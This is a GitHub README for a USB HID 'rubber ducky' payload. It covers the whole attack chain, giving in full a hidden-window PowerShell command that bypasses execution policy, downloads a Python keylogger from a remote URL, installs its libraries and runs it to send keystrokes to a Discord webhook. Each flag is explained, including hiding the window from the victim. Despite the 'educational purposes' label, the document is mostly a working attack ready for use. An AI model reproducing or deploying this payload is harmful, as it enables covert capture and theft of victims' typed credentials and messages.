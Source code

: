 THIS IS ONLY MADE FOR EDUCATIONAL PURPOSES


# What it Does

This payload executes a powershell command that downloads a python keylogger and runs it. This keylogger sends the keys pressed over discord using a webhook.

# How it Works:

## The rubber ducky script
When the grabber.dd runs it opens a powershell terminal window and enters this string:

```powershell
powershell -w h -NoP -NonI -Exec Bypass -c "cd $env:USERPROFILE\Documents ; iwr -Uri https://raw.githubusercontent.com/simen64/Pico-HID-Scripts/main/discord-keylogger/logger.py -OutFile $Env:USERPROFILE\Documents\logger.py ; py -m pip install discordwebhook pynput ; Python logger.py <Your discord webhook here>"
```

### Flags used:

The ```powershell -w h -NoP -NonI -Exec Bypass -c``` tells powershell to execute a set of commands with some flags:
- ```-w h``` tells powershell to run in a hidden window so the victim cant see logs
- ```-NoP``` makes sure that none of the users profiles are loaded, which could mess up execution
- ```-NonI``` Makes the user unable to interact with the script while its running
- ```-Exec Bypass``` Makes powershell bypass the execution policy which allows powershell to run scripts
- ```-c``` tells powershell what commands to execute, the commands are enclosed in quotes and seperated with semicolons
- Now the script proceecds to execute a sequence of commands

  (copied from the [chrome password stealer](https://github.com/simen64/Pico-HID-Scripts/tree/main/chrome-password-stealerw) README thats made by me)

  ### Commands ran:

  1. First we run ```cd $env:USERPROFILE\Documents``` to enter the users Documents folder where we will be downloading our keylogger
  2. Then we use ```iwr -Uri https://raw.githubusercontent.com/simen64/Pico-HID-Scripts/main/discord-keylogger/logger.py -OutFile $Env:USERPROFILE\Documents\logger.py``` to download the ```logger.py``` script and place it in the Documents folder using -OutFile
  3. Before running the python script we use ```py -m pip install discordwebhook pynput``` to download the needed python libraries (if these libraries are found pip skips this step and proceeds)
  4. And last we do ```Python logger.py <Your discord webhook here>``` to run the python script and using our webhook as an argument which the python script uses

